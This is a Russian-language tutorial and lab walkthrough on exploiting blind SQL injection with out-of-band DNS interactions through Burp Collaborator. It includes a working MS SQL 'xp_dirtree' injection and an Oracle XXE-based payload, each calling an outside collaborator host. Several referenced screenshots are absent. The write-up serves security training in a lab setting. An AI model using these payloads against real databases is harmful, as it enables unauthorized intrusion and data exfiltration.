




# Эксплуатация слепой SQL-инъекции с использованием внеполосных (OAST) методов. (Теория)

Приложение может выполнить тот же SQL-запрос, что и в предыдущем примере, но сделать это асинхронно. Приложение продолжает обработку запроса пользователя в исходном потоке и использует другой поток для выполнения SQL-запроса с использованием отслеживающего cookie-файла. Запрос по-прежнему уязвим для SQL-инъекций, но ни один из описанных выше методов не сработает. Ответ приложения не зависит от того, вернет ли запрос какие-либо данные, от возникновения ошибки базы данных или от времени, затраченного на выполнение запроса.

В такой ситуации часто можно использовать уязвимость слепой SQL-инъекции, инициируя внеполосные сетевые взаимодействия с системой, которую вы контролируете. Эти взаимодействия могут запускаться на основе внедренного условия для получения информации по частям. Что еще более полезно, данные могут быть извлечены непосредственно в ходе сетевого взаимодействия.

Для этой цели можно использовать различные сетевые протоколы, но, как правило, наиболее эффективным является DNS (служба доменных имен). Во многих производственных сетях разрешен беспрепятственный исходящий трафик DNS-запросов, поскольку они необходимы для нормальной работы производственных систем.

Самый простой и надежный инструмент для использования внеполосных методов — это Burp Collaborator . Это сервер, предоставляющий пользовательские реализации различных сетевых служб, включая DNS. Он позволяет обнаруживать сетевые взаимодействия, возникающие в результате отправки отдельных полезных нагрузок в уязвимое приложение. Burp Suite Professional включает в себя встроенный клиент, настроенный для работы с Burp Collaborator сразу после установки. Для получения дополнительной информации см. документацию по Burp Collaborator .

Методы запуска DNS-запроса зависят от типа используемой базы данных. Например, следующий ввод в Microsoft SQL Server может быть использован для запуска DNS-запроса к указанному домену:

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

В результате база данных выполнит поиск по следующему домену:

```sql
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

С помощью Burp Collaborator можно сгенерировать уникальный поддомен и опрашивать сервер Collaborator для подтверждения выполнения любых DNS-запросов.


# Лабораторная работа: Слепая SQL-инъекция с внеполосным взаимодействием.

В этой лабораторной работе обнаружена уязвимость слепой SQL-инъекции. Приложение использует отслеживающий cookie-файл для аналитики и выполняет SQL-запрос, содержащий значение отправленного cookie-файла.

SQL-запрос выполняется асинхронно и не влияет на ответ приложения. Однако вы можете инициировать внеполосное взаимодействие с внешним доменом.

Для решения лабораторной работы необходимо использовать уязвимость SQL-инъекции, чтобы вызвать DNS-запрос к Burp Collaborator.

Задача:
Использовать уязвимость SQLi и вызвать DNS-lookup (DNS-запрос)

Данная лабораторная работа **требует профессиональной версии Burp Suite**, поэтому тут будут только скрины разбра с youtube-канала.

Первым, что нам необходимо сделать, это зайти во вкладку:




Далее необходимо скопировать:



Получится что-то вроде: 



Это клиент Collaborator (внешняя система)

Необходимо использовать Blind SQLi, чтобы выполнить DNS-запрос к данному домену.
Воспользуемся шпаргалкой:




SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
